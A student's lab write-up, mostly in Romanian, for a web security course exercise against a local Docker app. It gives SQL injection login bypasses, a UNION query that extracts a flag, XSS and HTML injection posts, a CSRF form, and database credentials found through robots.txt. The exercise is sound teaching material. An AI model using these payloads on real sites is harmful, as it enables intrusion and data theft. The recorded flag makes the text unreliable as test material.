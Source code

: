 # Lab 9 - Web Security

## Infrastructura

OpenStack VM sua pe local cu Docker

## Setup

```bash
~$ ssh -L "8080:localhost:8080" -J fep openstack
# ssh -L "8080:localhost:8080" -J <first.lastname>@fep.grid.pub.ro student@10.9.X.Y
```

##  Task 1 - SQLi

```bash
# First, start the MySQL instance in background
$ docker run -d --rm --name mysql ropubisc/lab08-mysql
```

```bash
# Wait until the MySQL server fully starts:
$ docker logs mysql -f 
# Ctrl+C and continue when it says: 'mysqld: ready for connections.'
```

```bash
# Finally, start the sample web server
docker run -it --link mysql:mysql -p 8080:8080 ropubisc/lab08-web-server
```

Din browser: `http://localhost:8080/`

1. La users se introduce `' OR 1 --` sau `' OR 1 #`


## Task 2 - Advanced SQLi

Start the web server from the first task again.

La user se introduce comanda:
```
 'UNION SELECT 1, 2, 3, GROUP_CONCAT(0x7C, flag, 0x7C) FROM flags --
```
 Flag-ul `Flag{adv4nc3dsequeel}`

## Task 3 - Cross-Site Scripting

Dupa login se posteaza un mesaj cu continutul 
```html
<script>alert("XSS!");</script>
```

### Poza
Se posteaza un mesaj cu urmatorul continut sau cu F12 (inspect element) se duplica un post existent si se modifica continutul.
```html
<div style="position: absolute; top: -100px; left: 300px;"> <img src="http://localhost:8080/images/muzzle.png" style="width: 100px; height: auto;"> </div>
```
Se ajusteaza poztia.

## Task 4 - Cross-Site Request Forgery

Se creaza o pagina HTML local

```html
<!DOCTYPE <html>
    <body>
        <form method="post" action="http://localhost:8080/journal/post">
            <p>
                <label for="message">Hacker:</label>
                <input type="hidden" id="message" name="message" value="Hidden mallware">
            </p>
            <p>
              <input type="submit" value="Attack!!!">
            </p>
        </form>
    </body>
</html>
```

Se ruleaza dintr-un browser 
- se cauta unul pe care merge - mie mi-a mers pe Opera, dar nu pe Opera GX sau Chrome
- a mers doar daca serverul si pagina mea 'malitioasa' erau deschise pe acelasi browser

## Task 5 - Server Reconnaissance

Am cautat dupa 
* sitemap.xml - nu are
* robots.txt - are si ne zice de un fisier `server.js`. That's it. :joy:

Undeva prin fisier sunt si credentialele:
```js
var db = mysql.createConnection({
  host     : 'mysql',
  user     : 'guest',
  password : 'secretpasswordlab08-1337',
  database : 'journalapp'
});
db.connect(runServer);
```